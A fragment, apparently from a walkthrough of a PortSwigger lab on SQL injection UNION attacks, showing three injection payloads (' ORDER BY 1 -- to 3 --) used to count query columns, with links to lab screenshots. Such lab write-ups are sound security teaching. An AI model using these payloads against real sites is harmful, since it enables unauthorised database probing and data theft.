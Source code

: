 
```plaintext
' ORDER BY 1 -- 
```

<p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_finding_column_containing_text/4.png" width="1000">
</p><br>

```plaintext
' ORDER BY 2 -- 
```

<p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_finding_column_containing_text/5.png" width="1000">
</p><br>

```plaintext
' ORDER BY 3 -- 
```


<p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_finding_column_containing_text/6.png" width="1000">
</p><br>
